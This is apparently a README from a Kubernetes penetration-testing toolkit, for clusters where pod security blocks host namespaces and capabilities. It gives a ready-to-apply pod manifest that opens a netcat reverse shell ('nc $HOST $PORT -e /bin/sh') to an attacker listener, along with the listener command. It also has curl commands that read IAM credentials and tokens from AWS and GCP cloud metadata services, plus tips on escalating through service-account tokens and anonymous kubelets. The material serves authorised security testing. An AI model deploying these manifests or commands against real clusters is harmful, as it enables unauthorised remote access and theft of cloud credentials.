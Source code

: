 ## You have nothing

The pod security policy or admission controller has blocked access to all of the host's namespaces and restricted all capabilities.  **Do not despair**, especially if the target cluster is running in a cloud environment. 


# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-nothing-allowed
  labels: 
    app: pentest
spec:
  containers:
  - name: nothing-allowed
    image: ubuntu
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    #nodeName: control-plane-node-name # Uncomment and change to control node name to try and schedule pod on control-plane node
```
[pod-nothing-allowed.yaml](pod-nothing-allowed.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-nothing-allowed.yaml 
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/nothing-allowed/pod-nothing-allowed.yaml 
```

#### Exec into pod 
```bash
kubectl exec -it pod-nothing-allowed -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-nothing-allowed-revshell
  labels: 
    app: pentest
spec:
  containers:
  - name: nothing-allowed-revshell
    image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    #nodeName: control-plane-node-name # Uncomment and change to control node name to try and schedule pod on control-plane node
```
[pod-nothing-allowed-revshell.yaml](pod-nothing-allowed-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/nothing-allowed/pod-nothing-allowed-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation

* **Cloud metadata** - If cloud hosted, try to access the cloud metadata service. You might get access to the IAM credentials associated with the node, or even just a cloud IAM credential created specifically for that pod. In either case, this can be your path to escalate within the cluster, within the cloud environment, or both. 

```bash
curl http://169.254.169.254/latest/user-data # aws
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME] #aws
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/[account]/default/token #gcp
```

* **Overly permissive service account** - If the default service account is mounted to your pod and is overly permissive, you can use that token to further escalate your privs within the cluster.
* **Anonymous-auth** - If either [the apiserver or the kubelets have anonymous-auth set to true](https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/), and there are no network policy controls preventing it, you can interact with them directly without authentication. 
* **Exploits** - Is the kubernetes version vulnerable to an exploit, i.e. [CVE-2020-8558](https://github.com/tabbysable/POC-2020-8558)
* **Traditional vulnerability hunting** -Your pod will be able to see a different view of the network services running within the cluster than you likely can see from the machine you used to create the pod. You can hunt for vulnerable services by proxying your traffic through the pod. 




# Reference(s): 

* https://securekubernetes.com/
* https://madhuakula.com/kubernetes-goat/
* https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/
* https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/
* https://github.com/tabbysable/POC-2020-8558